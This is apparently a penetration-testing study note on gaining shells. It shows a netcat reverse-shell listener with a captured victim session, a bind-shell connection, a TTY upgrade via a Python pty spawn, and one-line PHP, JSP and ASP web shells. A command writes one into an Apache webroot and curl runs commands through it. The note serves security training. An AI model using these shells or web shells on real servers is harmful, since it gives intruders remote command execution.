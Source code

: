 ### Reverse Shell
* Most common type of shell
	* Quick and easy
* Use netcat to listen for the connection coming from the victim

#### Netcat Listener
* Start `netcat` listener on a port of our choosing

```bash
# -l Listen mode, to wait for a connection to connect to us.
# -v Verbose mode, so that we know when we receive a connection.
# -n Disable DNS resolution and only connect from/to IPs, to speed up the connection.
# -p 1234 Port number `netcat` is listening on, and the reverse connection should be sent to.
$ nc -lvnp 1234

listening on [any] 1234 ...
```

#### Reverse Shell Command
* Command depends on host OS
* Connection comes from the victim to us
* [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) has a list of reverse shells or different use cases
* Used when we want a quick reliable connection
* However reverse shells are very fragile when losing the connection or canceling a command

```bash
$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Bind Shell
* Like a reverse shell, but we have to connect to the targets' listening port

```bash
$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

* Unlike a reverse shell, we drop the connection, we can just connect back via netcat
* However if the remote host reboots or the connection is stopped or any reason we lose our access

#### Upgrading TTY
* Multiple methods

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ ^Z

$ stty raw -echo
$ fg

[Enter]
[Enter]
www-data@remotehost$
```

* Further, upgrade the shell to enable all features just like an SSH connection

```bash
# In a new terminal window
$ echo $TERM
xterm-256color
$ stty size
67 318

# Back in netcat
$ export TERM=xterm-256color
$ stty rows 67 columns 318
```

#### Web Shell
* Typically a web script i.e `php` or `ASPX` that accepts our command trough HTTP requests
	* `GET` or `POST`
	* Prints output back to web page
*  Common shell scripts

```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
<% eval request("cmd") %>
```

#### Uploading a Web Shell
* Place the script into the remote host's directory (webroot)

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| Apache     | /var/www/html/         |
| Nginx      | /usr/local/nginx/html/ |
| IIS        | C:\inetpub\wwwroot\    |
| XAMPP      | C:\xampp\htdocs\       |

* Apache example

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

#### Accessing Web Shell
* We can open the file via a browser or `cURL`
* We provide our commands via the get parameter `?cmd=`

```bash
$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
